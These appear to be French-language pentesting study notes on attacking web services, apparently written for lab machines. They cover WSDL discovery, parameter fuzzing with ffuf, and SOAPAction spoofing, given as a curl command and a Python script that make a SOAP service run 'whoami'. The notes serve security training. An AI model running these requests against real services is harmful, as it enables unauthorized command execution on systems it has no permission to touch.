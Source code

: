 
- [[#Web Services]]
- [[#API]]

---
# Web Services


- [ ] [[#Web Services Description Language WSDL]]
- [ ] [[#SOAPAction Spoofing]]
- [ ] [[#Command Injection]]
- [ ] [[#XML-RPC]]

## Web Services Description Language #WSDL

> [!Formes de fichier WSDL possibles]
> `/example.wsdl`, `?wsdl`, `/example.disco`, `?disco`

Si découverte d'un fichier wsdl vide, fuzz les paramètres:

```bash
ffuf -u 'http://10.129.72.227:3002/wsdl?FUZZ' -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt
```


## SOAPAction Spoofing

> [!TIP]
> Si un service web ne prend en compte que l'attribut SOAPAction pour déterminer l'opération à exécuter, il peut être vulnérable à l'usurpation de SOAPAction.

Exploitation en envoyant une requête POST:

```bash
curl -X POST http://10.129.72.227:3002/wsdl -d '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>' -H 'SOAPAction: "ExecuteCommand"'
```

Exploitation avec un script Python

```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
